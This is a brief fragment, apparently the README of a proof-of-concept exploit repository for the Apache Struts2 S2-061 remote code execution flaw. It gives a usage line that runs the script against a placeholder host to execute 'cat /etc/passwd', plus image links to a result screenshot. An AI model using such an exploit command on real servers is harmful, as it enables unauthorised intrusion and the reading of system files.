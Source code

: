 python s2-061.py http://x.x.x.x:8080 "cat /etc/passwd"

 ![结果图](https://github.com/coollce/coollce/blob/master/struts2-061/result.png)
